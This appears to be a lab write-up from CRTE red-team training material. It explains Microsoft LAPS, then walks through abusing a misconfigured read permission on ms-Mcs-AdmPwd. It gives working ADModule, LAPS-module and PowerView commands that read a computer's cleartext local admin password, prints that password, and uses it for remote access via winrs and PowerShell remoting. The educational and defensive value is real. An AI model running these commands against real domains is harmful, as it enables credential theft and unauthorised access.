






CRTE - Certified Red Team Expert
Privilege Escalation - LAPS (Local Administrator Password Solution) Attack
LAPS (Local Administrator Password Solution) is a Microsoft tool designed to enhance the security of local administrator accounts on Windows machines in an Active Directory (AD) environment.
It achieves this by:
- Managing Local Admin Passwords Automatically: LAPS automatically generates a unique, complex password for the local administrator account on each machine.
- Storing Passwords Securely in AD: These passwords are securely stored in Active Directory and are tied to the computer object in AD.
- Controlling Access: Only authorized users or groups can retrieve the stored passwords using permissions configured in AD.
LAPS was developed to address the problem of shared local admin passwords, which attackers could exploit to perform lateral movement across machines in a network.
How Does LAPS Work?
- Password Generation: LAPS periodically generates a random, complex password for the local admin account of each computer.
- Password Storage: The password is stored as an attribute (
ms-MCS-AdmPwd) in the computer object in AD. - Access Control: Permissions in AD control who can read the password.
- Password Expiry: The password is rotated automatically based on the policy you configure.
Key Benefits of LAPS
- Prevents Lateral Movement: Each computer has a unique password, so an attacker can't use the same password to move between systems.
- Reduces Administrative Overhead: Admins don’t need to manually manage local admin passwords.
- Integrates with AD: Passwords are stored securely and can be accessed only by authorized users or groups.
- Supports Audit and Compliance: Helps organizations meet security requirements by ensuring local admin accounts are managed securely.
Crucial Aspects to Understand
- Unique Passwords Per Machine: Every managed computer gets its own unique local admin password.
- Stored in AD: Passwords are saved in the
ms-MCS-AdmPwdattribute of the computer object in AD. - Controlled Access: Only specific users or groups (e.g., Helpdesk or System Admins) are allowed to retrieve passwords.
- No Password Reuse: LAPS ensures that passwords are rotated and not reused across machines.
- AD Permissions Are Key: Attackers need permission to read the
ms-MCS-AdmPwdattribute in AD to retrieve LAPS passwords. LAPS runs on the clients to manage and rotate the local administrator passwords.The DC stores the managed passwords in AD for retrieval by authorized users.
LAPS Attack User Scenario
Objective: Compromise a Windows machine using LAPS misconfigurations.
Scenario Overview
- Setup: An organization deploys LAPS across all machines, but permissions to access stored passwords (
ms-MCS-AdmPwd) are misconfigured. - Attack Vector:
- An attacker compromises a low-privileged user account in the domain.
- The attacker checks AD permissions and discovers that the low-privileged account can read the
ms-MCS-AdmPwdattribute. - Execution:
- The attacker queries the LAPS attribute for a specific machine and retrieves the stored local admin password.
- With the local admin password, the attacker gains local administrator privileges on the target machine.
- Impact:
- The attacker may use local admin rights to escalate privileges, install backdoors, or exfiltrate data.
- If other systems are misconfigured, lateral movement could follow.
LAPS Diagram

LAPS (Local Administrator Password Solution) Attack with ADModule and LAPS Module
Enumerating LAPS with ADModule and LAPS Module
We will enumerate the LAPS configured on the Domain with ADModule
Let’s start by importing ADModule
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dllImport-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
Importing LAPS Module
this module can be downloaded here and follow the manual installation here.
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1 -Verbose

Now that we have imported the 2 modules, Let’s enumerate the Organizational Unit where LAPS is configured.
For that we will use the script Get-LapsPermissions.ps1.
C:\AD\Tools\Get-LapsPermissions.ps1 -Verbose

The output of the Get-LapsPermissions.ps1 script provides details about the read and write permissions for LAPS-related attributes in Active Directory.
- Read Rights:
- OrganizationalUnit: This indicates the Organizational Unit (OU) in Active Directory where the permission is applied.
OU=MailMgmt,DC=us,DC=techcorp,DC=local
This is the Mail Management OU under the us.techcorp.local domain.
- IdentityReference: This is the security principal (user or group) that has been granted read access to the LAPS password stored in the
ms-Mcs-AdmPwdattribute.
US\studentusers
This means the studentusers group in the US domain has the right to read the local administrator passwords for computers in this OU.
- Write Rights:
- OrganizationalUnit: Again, this is the OU where the permission is applied, which is the same as the read rights (
OU=MailMgmt). - IdentityReference: This indicates the security principal with write access to the LAPS attributes.
NT AUTHORITY\SELF
This means that the computer account (via the SELF security principal) can write its own password (e.g., update the ms-Mcs-AdmPwd attribute) to Active Directory.
This is a standard LAPS configuration.
Interpretation:
- Read Rights: The
US\studentusersgroup has permission to retrieve the local admin passwords for machines in theMailMgmtOU. - Write Rights: Each computer in the
MailMgmtOU is configured to write its local admin password to its corresponding AD attribute.
Enumerating Computers on Organization Unit With ADModule
We can use the command Get-ADOrganizationaUnit and get all the OUs inside our domain and then we can filter it by the OU we want and request for the computer names inside of it.
Get-ADOrganizationaUnit Get-ADOrganizationalUnit -Identity 'OU=MailMgmt,DC=us,DC=techcorp,DC=local' | %{Get-ADComputer -SearchBase $_ -Filter *} | Select name

We can see above that we do have one computer names US-MAILMGMT inside MailMgmt OU and since we do have permission to read the LAPS passwords from computers inside MailMgmt OU, we can simply check the password for US-MAILMGMT.
Read LAPS Password With ADModule
Since we already know that US\studentusers group has permission to retrieve the local admin passwords for machines in the MailMgmt OU, we can execute the following ADModule command to read the LAPS password from MailMgmt Organizational Unit.
Get-ADComputer -Identity 'US-MAILMGMT' -Properties 'ms-mcs-admpwd' | Select -ExpandProperty 'ms-mcs-admpwd'

We have were able to read the US-MAILMGMT computer admin credential. .1G9]@!BNT1Y5G
Read LAPS Password With LAPS Module
Get-AdmPwdPassword -ComputerName 'US-MAILMGMT'

LAPS module was able to retrive the US-MAILMGMT computer inside MailMgmt OU.
LAPS (Local Administrator Password Solution) Attack With PowerView
We can attack LAPS with PowerView as well, and honestly I think that, PowerView is away better tool for this type of attack, because of its simplitcity.
Enumerating LAPS with PowerView
We can also enumerate LAPS configuration on a domain using PowerView.
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $.SecurityIdentifier); $_}

The US\studentusers group has ReadProperty permission on the ms-Mcs-AdmPwd attribute for computers in the MailMgmt OU, allowing them to access LAPS-managed passwords.
1. IdentityName
- Value:
US\studentusers - This shows the user or group that has been granted permissions (in this case, the
US\studentusersgroup). - This field is resolved from the
SecurityIdentifier(SID) of the ACL entry. - This is the principal (user or group) that can access the
ms-Mcs-AdmPwdattribute of objects in the scope (e.g., OUs or computer objects). - You need to carefully verify whether this group is authorized to access sensitive data like LAPS-managed passwords.
2. ObjectDN
- Value:
OU=MailMgmt,DC=us,DC=techcorp,DC=local - The Distinguished Name (DN) of the Organizational Unit (OU) to which this ACL applies.
- In this case, the ACL is applied to the
MailMgmtOU in the domainus.techcorp.local. - This indicates where in Active Directory the LAPS configuration or permissions are applied.
- All computer objects under this OU (
OU=MailMgmt) may have their local admin passwords managed by LAPS.
3. ActiveDirectoryRights
- Value:
ReadProperty - This shows the specific rights the
US\studentusersgroup has for thems-Mcs-AdmPwdattribute. ReadPropertymeans this group can read the LAPS-managed password for computer objects in theMailMgmtOU.- ReadProperty on
ms-Mcs-AdmPwdallows users or groups to retrieve the local administrator password managed by LAPS. - This is highly sensitive, and access should typically be restricted to authorized administrators (e.g., IT Helpdesk or a secure group).
Enumerating Computers on Organization Unit With PowerView
Since we are part of US/Studentusers group, we can read LAPS-Managed Passwords inside MailMgmt OU. Let’s enumerate what computers are inside MailMgmt OU to be able to read the local administrator password.
We can start by enumerating all the OUs inside our domain to be able to get the DistinguishedName we need to be find out what computers are inside that OU.
The Command Get-DomainOU will bring us all the configured OUs inside our domain, once we find the OU we are looking for we need to use it’s DistinguishedName.
Get-DomainOU(Get-DomainOU -Identity 'OU=MailMgmt,DC=us,DC=techcorp,DC=local').distinguishedname | %{Get-DomainComputer -SearchBase $_} | Select name

Read LAPS Password With PowerView
We can see above that, inside MailMgmt OU we do have only one computer, let’s read this computer Local Administrator’s password.
Get-DomainObject -Identity 'US-MAILMGMT' | Select -ExpandProperty 'ms-mcs-admpwd'

Voila, we successfully attacked LAPS configured on this domain and got clear-text password for the computer inside MailMgmt Organizational Unit.
Accessing US-MailMgtm computer with WinRS
Now that we do have US-MailMgmt local administrator’s clear-text password, we can simply try to access the machine remotely using WinRS tool.
winrs -r:US-MAILMGMT -u:'.\Administrator' -p:'.1G9]@!BNTlY5G' cmd

We successfully remotely accessed US-MailMgmt machine. Please bare in mind that we had to you the username as .\Administrator’s because we are using the local Administrator password and not the Domain Administrator password.
Accessing US-MailMgtm computer with PSRemoting Session
Now that we do have US-MailMgmt local administrator’s clear-text password, we can simply try to access the machine remotely using PSRemote Session
`$password = ConvertTo-SecureString '.1G9]@!BNTlY5G' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ('us-mailmgmt\administrator', $password)
$mailmgmt = New-PSSession -ComputerName 'US-MailMgmt' -Credential $creds
$mailmgmt  We can now remote access mailmgmt with the following command. Enter-PSSession -Session $mailmgmt`
